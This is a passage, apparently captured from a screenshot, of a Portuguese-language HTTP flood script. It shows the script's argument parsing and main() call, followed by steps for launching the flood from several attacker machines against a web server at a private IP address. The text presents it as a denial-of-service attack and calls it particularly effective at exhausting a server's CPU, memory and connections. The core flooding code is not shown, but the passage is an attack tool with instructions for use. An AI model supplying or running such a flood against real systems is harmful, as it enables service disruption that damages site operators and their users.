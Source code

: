 ```python
    parser.add_argument('-d', '--duration', type=int, default=30, help='Duração do ataque em segundos (padrão: 30)')
    parser.add_argument('-i', '--id', type=int, default=0, help='ID do atacante (padrão: 0)')
    
    args = parser.parse_args()
    
    if args.threads <= 0:
        print("[!] Erro: O número de threads deve ser positivo")
        sys.exit(1)
        
    if args.duration <= 0:
        print("[!] Erro: A duração deve ser um número positivo")
        sys.exit(1)
    
    main(args.url, args.threads, args.method, args.duration, args.id)
```

Para usar este exemplo, siga estas etapas:

1. Certifique-se de que o servidor Apache está rodando no alvo
2. Instale as dependências: `pip3 install requests`
3. Execute o ataque em cada máquina atacante:
   ```bash
   python3 http_flood.py http://192.168.1.100/ -t 20 -d 60 -i X
   ```

Este ataque é particularmente eficaz contra servidores web, pois consome recursos de CPU, memória e conexões simultâneas.
